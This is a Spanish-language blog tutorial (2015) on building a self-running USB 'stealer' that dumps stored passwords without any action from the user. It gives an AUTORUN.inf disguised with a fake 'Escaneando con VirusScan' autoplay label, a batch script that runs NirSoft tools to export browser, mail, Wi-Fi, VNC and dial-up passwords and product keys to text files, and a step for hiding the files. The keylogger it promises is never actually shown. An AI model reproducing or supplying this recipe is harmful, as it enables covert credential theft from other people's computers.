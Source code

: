 +++
date = "2015-05-02"
title = "Cómo crear un USB Keylogger/Stealer para recuperar contraseñas"
author = "Javier Olmedo"
toc = false
+++

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_banner.jpg](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_banner.jpg)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_banner.jpg)

Hace unas semana publiqué una entrada sobre **Stealers** y expliqué lo que eran y para que servían, hoy vengo a explicaros como crear un USB que se autoejecute y **recupere todas nuestras contraseñas del PC** de manera automática, únicamente con conectarlo a nuestro PC, sin tocar absolutamente nada, ademas tendrá una función Keylogger, que registrará en un archivo .txt todo lo que pulsemos en nuestro teclado mientras el USB esté conectado al PC.

## Pasos a seguir

1) Inserta un pendrive para formatearlo, haz **«Click derecho»** sobre la unidad y en **«Formatear»**, podemos formatearlo en NTFS o FAT32 (este último es mas recomendado).

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_001.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_001.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_001.png)

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_002.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_002.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_002.png)

2) Abrimos el bloc de notas o similar y escribimos lo siguiente:

```bash
[autorun]
open = launch.bat
UseAutoPlay = 1
ACTION = Escaneando con VirusScan
```

Guardamos el archivo con el nombre **AUTORUN.inf** y lo dejamos dentro del USB.

3) Volvemos al bloc de notas para crear otro archivo, esta vez escribiremos:

```bash
start mspass.exe /stext mspass.txt
start mailpv.exe /stext mailpv.txt
start iepv.exe /stext iepv.txt
start pspv.exe /stext pspv.txt
start PasswordFox.exe /stext passwordfox.txt
start OperaPassView.exe /stext OperaPassView.txt
start ChromePass.exe /stext ChromePass.txt
start Dialupass.exe /stext Dialupass.txt
start netpass.exe /stext netpass.txt
start WirelessKeyView.exe /stext WirelessKeyView.txt
start BulletsPassView.exe /stext BulletsPassView.txt
start VNCPassView.exe /stext VNCPassView.txt
start OpenedFilesView.exe /stext OpenedFilesView.txt
start ProduKey.exe /stext ProduKey.txt
start USBDeview.exe /stext USBDeview.txt
```

Guardamos el archivo con el nombre **LAUNCH.bat** y lo dejamos dentro del USB.

4) Visitamos la web http://www.nirsoft.net/ y nos descargamos las siguiente herramientas:

```bash
mspass.exe
mailpv.exe
iepv.exe
pspv.exe
PasswordFox.exe
OperaPassView.exe
ChromePass.exe
Dialupass2.exe
Netpass.exe
WirelessKeyView.exe
BulletsPassView.exe
VNCPassView.exe
OpenedFilesView.exe
ProduKey.exe
USBDeview.exe
```

Debemos de **descomprimirlas** en la raiz del USB, os dejo un link con las direcciones de las [Herramientas]().

Nos quedaría de la siguiente manera.

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_003.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_003.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_003.png)

5) Descomprimimos todas las herramientas y **ocultamos todos los archivos**, al final todo quedaría así:

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_004.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_004.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_004.png)

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_005.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_005.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_005.png)

6) Quitamos el USB del ordenador y lo volvemos a insertar para comprobar que funciona, si todo ha ido bien nos aparecerán los siguientes **.txt**, que no hace falta que los abra porque ya se sabe lo que contienen, **todas las contraseñas del sistema, incluidas las del WI-FI**.

[![/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_006.png](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_006.png)](/images/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas/como-crear-un-usb-keyloggerstealer-para-recuperar-contrasenas_006.png)

Espero que os haya gustado, y ya sabéis, **no conectéis ningún USB a vuestro ordenador si no es vuestro o dudáis de lo que puede contener**.